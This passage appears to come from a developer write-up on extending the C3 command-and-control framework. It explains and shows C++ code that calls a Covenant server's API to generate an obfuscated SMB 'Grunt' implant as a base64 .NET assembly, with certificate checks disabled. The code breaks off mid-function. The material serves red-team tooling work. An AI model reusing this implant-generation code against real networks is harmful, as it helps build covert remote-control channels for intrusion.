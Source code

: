 It is worth noting that we do not need to know where the payload is being returned to, such information is part of C3's core code, and we wanted to make extensions to C3 as easy as possible. All the developer needs to do is make sure the payload is correct, and it will make it's way to the correct Relay.

The logic for the above actions is as such:

```c++
MWR::ByteVector MWR::C3::Interfaces::Connectors::Covenant::GeneratePayload(ByteView binderId, std::string pipename, uint32_t delay, uint32_t jitter, uint32_t connectAttempts)
{
if (binderId.empty() || pipename.empty())
		throw std::runtime_error{ OBF("Wrong parameters, cannot create payload") };

	std::string authHeader = OBF("Bearer ") + this->m_token;
	std::string contentHeader = OBF("Content-Type: application/json");
	std::string binary;

	web::http::client::http_client_config config;
	config.set_validate_certificates(false);
	web::http::client::http_client webClient(utility::conversions::to_string_t(this->m_webHost + OBF("/api/launchers/binary")), config);
	web::http::http_request request;

	//The data to create an SMB Grunt
	json postData;
	postData[OBF("id")] = this->m_ListenerId;
	postData[OBF("smbPipeName")] = pipename;
	postData[OBF("listenerId")] = this->m_ListenerId;
	postData[OBF("outputKind")] = OBF("ConsoleApplication");
	postData[OBF("implantTemplateId")] = 2; //for GruntSMB template
	postData[OBF("dotNetFrameworkVersion")] = OBF("Net40");
	postData[OBF("type")] = OBF("Wmic");
	postData[OBF("delay")] = delay;
	postData[OBF("jitterPercent")] = jitter;
	postData[OBF("connectAttempts")] = connectAttempts;

	//First we use a PUT to add our data as the template.
	request = web::http::http_request(web::http::methods::PUT);
	try
	{
		request.headers().set_content_type(utility::conversions::to_string_t("application/json"));
		request.set_body(utility::conversions::to_string_t(postData.dump()));

		request.headers().add(OBF_W(L"Authorization"), utility::conversions::to_string_t(authHeader));
		pplx::task<web::http::http_response> task = webClient.request(request);
		web::http::http_response resp = task.get();

		//If we get 200 OK, then we use a POST to request the generation of the payload. We can reuse the previous data here.
		if (resp.status_code() == web::http::status_codes::OK)
		{
			request.set_method(web::http::methods::POST);
			task = webClient.request(request);
			resp = task.get();

			if (resp.status_code() == web::http::status_codes::OK)
			{
				auto respData = resp.extract_string();
				json resp = json::parse(respData.get());
				binary = resp[OBF("base64ILByteString")].get<std::string>(); //Contains the base64 encoded .NET assembly.
			}
			else
```